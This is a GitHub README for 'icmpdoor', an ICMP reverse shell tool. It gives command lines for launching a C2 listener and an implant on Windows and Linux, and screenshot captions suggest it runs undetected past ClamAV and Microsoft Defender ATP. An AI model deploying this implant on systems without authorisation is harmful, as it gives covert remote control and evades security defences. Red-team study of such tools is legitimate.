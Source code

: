 # icmpdoor - ICMP Reverse Shell
icmpdoor is written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (C2)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d DESTINATION_IP (C2)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d DESTINATION_IP (C2)
./icmpdoor -d DESTINATION_IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
